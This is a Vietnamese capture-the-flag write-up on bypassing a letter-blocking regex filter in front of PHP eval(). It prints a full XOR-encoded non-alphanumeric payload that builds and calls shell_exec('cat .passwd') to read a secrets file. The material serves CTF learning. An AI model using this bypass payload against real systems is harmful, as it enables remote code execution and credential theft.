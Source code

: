 Hàm `eval()` nhận vào 1 string và thực thi nó như 1 đoạn code PHP. Đây đương nhiên là lỗ hổng nguy hiểm, tuy nhiên nhìn vào source code được cung cấp, ta thấy những kí tự a-z, A-Z đều đã được filter:

```php
if(!preg_match('/[a-zA-Z`]/', $_POST['input'])){
```

Vậy sẽ phải tìm cách để viết code mà không cần dùng kí tự alphabet. Search google thử sẽ ra ngay [post](https://medium.com/mucomplex/bypass-with-php-non-alpha-encoder-fee4e1bac31e) này. Ta biết được 2 cách để tạo thành 1 string có nghĩa chỉ dựa vào non-alpha characters:

1. Dùng toán tử `xor`, `or` ví dụ:  '{'  ^  '/'  ->  'T'
2. Dùng toán tử increment ++

Ở đây ta sẽ dùng toán tử xor, or(vì may quá tác giả bài viết này còn cung cấp sẵn 1 tool cho chúng ta đỡ nhọc công tốn sức, tự viết cũng được chỉ đơn giản là brute force các cặp kí tự non-alpha sao cho tổng của chúng = alpha thôi )

Link [tool](https://github.com/mucomplex/PHP_alphanumeric_encoder) 

Đến đây thì đơn giản rồi. Xác định code mình sẽ thực thi trên server: shell_exec('cat .passwd')

Do string được truyền vào hàm eval() bắt đầu bằng lệnh print nên không thể nhét nguyên câu lệnh đã convert sang non-alpha vào được, ta phải viết hẳn 1 đoạn code như sau:

```php
$_ = cat .passwd
    # convert: $_=('8'^'[').('!'^'@').(')'^']').('['^'{').".".(']'^'-').(']'^'<').('^'^'-').('_'^',').('7'^'@').('9'^']')
$__ = shell_exec
    # convert: $__=('3' ^ '@').('3' ^ '[').('8' ^ ']').(',' ^ '@').('@' ^ ',')."_".('[' ^ '>').(']' ^ '%').('^' ^ ';').('^' ^ '=')
$__($_)
```

Payload cuối cùng như sau:

`($_=('8'^'[').('!'^'@').(')'^']').('['^'{').".".(']'^'-').(']'^'<').('^'^'-').('_'^',').('7'^'@').('9'^']')).($__=('3' ^ '@').('3' ^ '[').('8' ^ ']').(',' ^ '@').('@' ^ ',')."_".('[' ^ '>').(']' ^ '%').('^' ^ ';').('^' ^ '=')).($__($_)).";"`



